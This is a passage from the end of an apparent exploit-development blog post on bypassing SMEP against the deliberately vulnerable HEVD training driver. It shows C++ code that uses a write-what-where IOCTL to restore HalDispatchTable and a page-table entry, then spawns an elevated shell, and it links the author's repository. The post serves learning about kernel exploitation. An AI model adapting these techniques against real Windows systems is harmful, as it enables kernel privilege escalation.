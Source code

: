 ```cpp
	printf("\n[+] HalDispatchTable0x8 restored successfully\n");
	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;


	*(UINT64*)&Pte_details |= 0x4;

	WhaWhe.What = (void*)&Pte_details;
	WhaWhe.Where = (void*)ShellcodePageBase;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
	printf("[Page Restored successfully to UM]\n");

	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;

	printf("\nGenerating a Shell...\n");

	SpawnShell();

	CloseHandle(hHEVD);
	// VirtualFree(ShellcodeAddr, SHELLCODE_SIZE, MEM_RELEASE);
	return 0;
}
```

## Closing
You can check the codes on my github repo [Smep Bypass](https://github.com/r0keb/Smep-Bypass)

Good morning, and in case I don’t see ya: Good afternoon, good evening, and good night!

